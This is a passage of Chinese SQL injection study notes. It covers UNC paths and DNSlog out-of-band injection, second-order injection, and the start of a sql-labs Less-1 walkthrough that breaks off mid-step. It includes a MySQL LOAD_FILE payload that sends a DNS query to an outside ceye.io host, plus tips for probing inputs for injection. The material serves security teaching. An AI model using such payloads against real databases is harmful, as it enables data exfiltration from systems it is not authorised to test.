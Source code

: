 UNC路径 通用命名规则，也称通用命名规范、通用命名约定。

什么是UNC路径？UNC路径就是类似 \hacker这样的形式的网络路径。它符合==\servername\sharename== 格式，其中 servername 是服务器名，sharename 是共享资源的名称。

```
\edu_pc\share_dir\bishe.pdf 
在edu_pc这台服务器下有一个share_dir目录，在此共享目录下面有一个文件bishe.pdf 
这种路径的表示方法就是UNC表示法 
在Windows中推荐使用这种写法：
//edu_pc/share_dir/bishe.pdf 
Linux不支持UNC路径，DNSlog注入不支持Linux环境 
```

3、CEYE.IO平台

![image-20240724155309909](https://gitee.com/zh0y0/picture/raw/master/zh0y0/image-20240724155309909.png)

在MySQL 中可以使用LOAD_FILE函数加载网络驱动器上的文件:

```mysql
SELECT LOAD_FILE('\\\\ydu4yt.ceye.io\\1.txt')
```

同样，该函数也会发起一次 DNS 查询。这种用法依赖MySQL 中一个名为 secure_file _priv的配置变量,它用于控制 MySQL 允许访问的文件路径。在旧的MySQL版本中,secure_file _priv 的值默认为空，即不做任何限制，所以在旧的 Web应用中,带外数据注入攻击成功的概率更,在新版本 MySQL 中，secure_file _priv的值默认是 NULL，即不允许访问目录。

##### 9.二次注入

前面讲到的SQL注入案例是 Web应用将用户的输入数据直接用于拼接SQL语句所导致的有时候，开发人员对外部数据做了严格的过滤，或采用了完善的SQL注入防御方案，但是在将应用程序内部的数据拼接到SQL语句中时，错误地认为内部数据都是可信的，而未采取相应的安全措施。

当用户提交的恶意数据被存入数据库后,应用程序再把它读取出来用于生成新的 SQL 语句时，如果没有相应的安全措施，还是有可能发生SQL注入，这种注入叫作二次SQL注入，也叫存储型 SQL 注入。

#### 五、实验

##### 1.sql-labs less-1  有回显的union 注入

###### 1.首先我们打开SQLlib的第一关

这里提示我们输入ID，并且是数值型

![8920cc29dcc805683529ad0ad6e423e](https://gitee.com/zh0y0/picture/raw/master/zh0y0/8920cc29dcc805683529ad0ad6e423e.png)

###### 2.第一步判断是否存在SQL注入

其实很简单，我们并不需要使用什么and 1=1 这样的语句去判断，而是可以直接输入一大堆垃圾数据，如果报错，那么说明我们输入的这个垃圾数据被带入数据库中并且执行了，那么就极有可能存在SQL注入

比如这里，我输入垃圾数据，明显看到报错了，那么就极有可能存在SQL注入

![ab5b1bd0191397017b93832df1867fb](https://gitee.com/zh0y0/picture/raw/master/zh0y0/ab5b1bd0191397017b93832df1867fb.png)

###### 3.判断闭合符号

输入单引号，报错，那么这里接收id的地方肯定是单引号

比如：

